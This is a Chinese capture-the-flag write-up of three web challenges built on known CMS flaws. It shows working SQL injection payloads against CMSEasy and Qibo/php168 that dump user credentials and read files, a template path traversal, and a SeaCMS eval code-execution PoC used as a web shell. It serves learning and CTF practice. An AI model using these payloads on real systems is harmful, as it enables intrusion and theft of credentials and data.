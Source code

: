 ```yaml
---
title: 百度杯CMS
date: 2018-03-16 00:00:00
categories:
- CTF/Web
tags: 百度杯九月 CMS SQL注入
--- 
```


## 识别CMS方法

### 在线识别

[http://www.yunsee.cn/](http://www.yunsee.cn/)

[http://whatweb.bugscaner.com/](http://whatweb.bugscaner.com/)

### 工具识别

- CMSmap
- WhatWeb

### 关键信息

- github
- 备案号
- 水印logo

### CMS漏洞查找

- [乌云镜像](http://wooyun.jozxing.cc/)
- [seebug](https://www.seebug.org/)
- [漏洞时代](http://0day5.com/)

## YeserCMS

### 识别CMS

点开一篇文章，在文章下面评论框中发现CMSEASY的水印，认定为CMSEASY

### CMS漏洞

用乌云镜像查到一堆漏洞，也只能找看起来容易利用的来尝试，最终使用[WooYun-2015-137013](http://wooyun.jozxing.cc/static/bugs/wooyun-2015-0137013.html)，这个报错注入漏洞成功利用

### 利用漏洞


```HTTP

// 乌云给出的利用方式，payload本身经过两次url编码，但本题进行测验时，发现并不需要进行url编码也可利用成功

POST /celive/live/header.php

xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx%2527%252C%2528UpdateXML%25281%252CCONCAT%25280x5b%252Cmid%2528%2528SELECT%252f%252a%252a%252fGROUP_CONCAT%2528concat%2528username%252C%2527%257C%2527%252Cpassword%2529%2529%2520from%2520cmseasy_user%2529%252C1%252C32%2529%252C0x5d%2529%252C1%2529%2529%252CNULL%252CNULL%252CNULL%252CNULL%252CNULL%252CNULL%2529--%2520</q></xjxquery>



// 两次url解码后，可看出是一个报错注入

POST /celive/live/header.php

xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(concat(username,'|',password)) from cmseasy_user),1,32),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery>

// 数据库名

xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(concat(schema_name)) from information_schema.schemata),1,32),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery>

// 表名，发现前缀为Yesercms_

xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(concat(table_name)) from information_schema.tables where table_schema='Yeser'),1,32),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery>

// 猜测用户表为Yesercms_user

xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(concat(username,'|',password)) from yesercms_user),1,32),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery>

// 32位长度不够继续第二次

xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(concat(username,'|',password)) from yesercms_user),20,32),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery>

// 得到用户名以及密码hash，cmd5解密

admin::ff512d4240cbbdeafada404677ccbe61

admin::Yeser231

```

### getshell失败

通过漏洞库找到的getshell方法都没用，也没办法用load_file注入读出网站目录下的flag.php

在管理界面中模板->当前模板编辑中可看到类似文件读取的功能，抓包发现，可能为文件包含

```HTTP
POST /index.php?case=template&act=fetch&admin_dir=admin&site=default HTTP/1.1
Host: 0ffa855eb139493c98d79cb36dc98fb21d3584a2d80242da.game.ichunqiu.com
Proxy-Connection: keep-alive
Content-Length: 29
Accept: application/json, text/javascript, */*
Origin: http://0ffa855eb139493c98d79cb36dc98fb21d3584a2d80242da.game.ichunqiu.com
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Referer: http://0ffa855eb139493c98d79cb36dc98fb21d3584a2d80242da.game.ichunqiu.com/index.php?case=template&act=edit&admin_dir=admin&site=default
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,da;q=0.8
Cookie: PHPSESSID=93d011f88a4d727ff86158d96926ef75;passinfo=%E5%85%8D%E8%B4%B9%E7%89%88+%3Ca+href%3D%22http%3A%2F%2Fwww.cmseasy.cn%2Fservice_1.html%22+target%3D%22_blank%22%3E%3Cfont+color%3D%22green%22%3E%28%E8%B4%AD%E4%B9%B0%E6%8E%88%E6%9D%83%29%3C%2Ffont%3E%3C%2Fa%3E; login_username=admin; login_password=a94f8d9844c391a79ae9db9aa41d2c44; style=skin2

&id=#archive_d_list_page_html
```


尝试更改id，获得flag

```
&id=#../../flag.php
```

## 再见CMS

### 识别CMS

- 通过备案号：京ICP备050453号，百度可知为`齐博cms`
- 通过bugscaner扫描为：`php168`
- 后来知道`php168`就是`齐博cms`的前身（无奈...）

### CMS漏洞

用乌云镜像查到一堆漏洞，发现这个CMS特别爱留后门，但尝试一堆无果，最终使用[WooYun-2014-80259](http://wooyun.jozxing.cc/static/bugs/wooyun-2014-080259.html)这个注入漏洞

### 利用漏洞

管理员的密码哈希cmd5查不到，直接利用load_file读出flag.php文件

```HTTP
POST /member/userinfo.php?job=edit&step=2 HTTP/1.1
Host: e33c7daf395f4333ad03ce19153b2085b4030edb27934599.game.ichunqiu.com
Proxy-Connection: keep-alive
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,da;q=0.8
Cookie: passport=3%09xuanxuan%09UlZVW1ANBlUDU1cFCQAPAg4CUFkFCAYEV14CBgEGDVU%3Dfdf97d74d9; USR=dvy0cwef%0934%091521126941%09http%3A%2F%2Fe33c7daf395f4333ad03ce19153b2085b4030edb27934599.game.ichunqiu.com%2F
Content-Type: application/x-www-form-urlencoded
Content-Length: 159

truename=xxxx%0000&Limitword[000]=&email=xuanxuan@162.com&provinceid=,address=(select load_file(0x2F7661722F7777772F68746D6C2F666C61672E706870)) where uid=3%23
```

## Test

### 识别CMS

直接看标识为：海洋CMS

### CMS漏洞

- 漏洞时代：[海洋CMS V6.28代码执行0day](http://0day5.com/archives/4180/)
- freebuf：[漏洞预警 | 海洋CMS（SEACMS）0day漏洞预警](http://www.freebuf.com/vuls/150042.html)，不过出题的时候还没有这篇文章

### 利用漏洞

```
POC:/search.php?searchtype=5&tid=&area=eval($_POST[1]) 菜刀链接,密码为1
```

翻到`/var/www/html/data/common.inc.php`这个文件，拿到数据库信息，菜刀链接数据库拿flag

```
<?php
//数据库连接信息
$cfg_dbhost = '127.0.0.1';
$cfg_dbname = 'seacms';
$cfg_dbuser = 'sea_user';
$cfg_dbpwd = '46e06533407e';
$cfg_dbprefix = 'sea_';
$cfg_db_language = 'utf8';
?>
```


